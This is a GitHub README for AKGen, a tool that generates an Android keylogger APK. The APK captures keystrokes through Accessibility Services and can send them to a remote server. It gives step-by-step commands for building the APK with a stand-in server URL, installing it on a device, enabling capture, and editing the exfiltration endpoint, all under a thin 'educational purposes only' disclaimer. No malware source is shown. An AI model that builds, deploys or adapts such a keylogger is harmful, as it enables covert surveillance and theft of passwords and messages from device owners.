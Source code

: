 # Android Keylogger Generator (AKGen)

AKGen is an open-source tool that allows users to generate a custom keylogger APK for Android devices. This tool is strictly for educational and ethical purposes. It helps users understand how keyloggers work and how to protect against them.

---

## Features
- **Customizable Keylogger:** Generate a keylogger APK with your own settings.
- **Local or Remote Logging:** Save keystrokes locally or send them to a remote server.


---

## Prerequisites
Before using AKGen, ensure you have the following installed:
1. **Python 3** (Download from [python.org](https://www.python.org/))
2. **Android SDK** (Download from [developer.android.com](https://developer.android.com/studio))
3. **Git** (Download from [git-scm.com](https://git-scm.com/))

---

## Installation
1. Clone the repository:
```bash
git clone https://github.com/trmxvibs/AKGen
cd AKGen
```
2. Install required dependencies:
 ```bash
pip install argparse subprocess os shutil
```
3. Ensure you have the Android SDK installed and configured.

 # How to Use
Step 1: Generate the APK
Run the following command to generate the keylogger APK:
```bash
python akgen.py -o output.apk -s http://yourserver.com
```
`-o`: Output APK file name (e.g., output.apk).

`-s`: Server URL to send keystrokes (optional). If not provided, keystrokes will be saved locally.


# Step 2: Install the APK
Transfer the generated APK (output.apk) to your Android device.

Install the APK on your device.

 # Step 3: Enable Keylogger
Open the app on your Android device.

Click the "Enable Keylogger" button.

Grant the necessary permissions (Accessibility Services).

Customization
You can customize the keylogger APK as per your requirements:

1. Change Server URL
Modify the `-s` parameter in the command to specify your server URL:
```
python akgen.py -o output.apk -s http://your-custom-server.com
```
2. Modify Keylogger Logic
Edit the KeyLoggerService.java file in the template_apk folder to change the keylogger behavior:

`private static final String SERVER_URL = "YOUR_SERVER_URL`


3. Modify UI
Edit the `activity_main.xml` file in the `template_apk` folder to change the app's user interface.


---

# How It Works -
APK Generation:

The `akgen.py` script modifies the template APK based on user input (e.g., server URL).

It builds the APK using Gradle.

Keylogger Functionality:

The app uses Android's Accessibility Services to capture keystrokes.

Captured keystrokes are either saved locally or sent to a remote server.

Ethical Use:

The app is designed for educational purposes only.

It requires explicit user consent to enable keylogging.



# License
This project is licensed under the MIT License. See the LICENSE file for details.

# Contributing
Contributions are welcome! If you have any suggestions or improvements, feel free to open an issue or submit a pull request.

# Disclaimer
This tool is for educational purposes only. The developers are not responsible for any misuse of this tool. Use it at your own risk.






















